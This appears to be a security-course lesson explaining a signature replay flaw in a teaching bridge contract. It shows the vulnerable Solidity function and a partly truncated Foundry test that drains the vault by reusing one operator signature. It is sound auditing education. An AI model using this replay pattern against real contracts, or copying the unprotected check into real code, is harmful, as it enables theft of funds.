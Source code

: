 ```yaml
---
title: Signature Replay PoC
---
```


_Follow along with the video lesson:_

---

### Signature Replay PoC

With some context of how a signature replay attack works, we can come back to our sendToL1 function within L1BossBridge.sol and see how it applies to our situation.

```js
function sendToL1(uint8 v, bytes32 r, bytes32 s, bytes memory message) public nonReentrant whenNotPaused {
    address signer = ECDSA.recover(MessageHashUtils.toEthSignedMessageHash(keccak256(message)), v, r, s);

    if (!signers[signer]) {
        revert L1BossBridge__Unauthorized();
    }

    (address target, uint256 value, bytes memory data) = abi.decode(message, (address, uint256, bytes));

    (bool success,) = target.call{ value: value }(data);
    if (!success) {
        revert L1BossBridge__CallFailed();
    }
}
```

We can see that there's clearly nothing in place to prevent this broadcast signature from being used more than once. We should write a proof of code to demonstrate this.

Within L1TokenBridge.t.sol:

```js
function testSignatureReplay() public {
address attacker = makeAddr("attacker");
// assume the vault already holds some tokens
uint256 vaultInitialBalance = 1000e18;
uint256 attackerInitialBalance = 100e18;
deal(address(token), address(vault), vaultInitialBalance);
deal(address(token), attacker, attackerInitialBalance);

// An attacker deposits tokens to L2
vm.startPrank(attacker);
token.approve(address(tokenBridge), type(uint256).max);
tokenBridge.depositTokensToL2(attacker, attacker, attackerInitialBalance);

// Signer/Operator is going to sign the withdrawl
bytes memory message = abi.encode(
    address(token), 0, abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, attackerInitialBalance))
);

(uint8 v, bytes32 r, bytes32 s) = vm.sign(operator.key, MessageHashUtils.toEthSignedMessageHash(keccak256(message)));

while(token.balanceOf(address(vault)) > 0){
    tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
}

```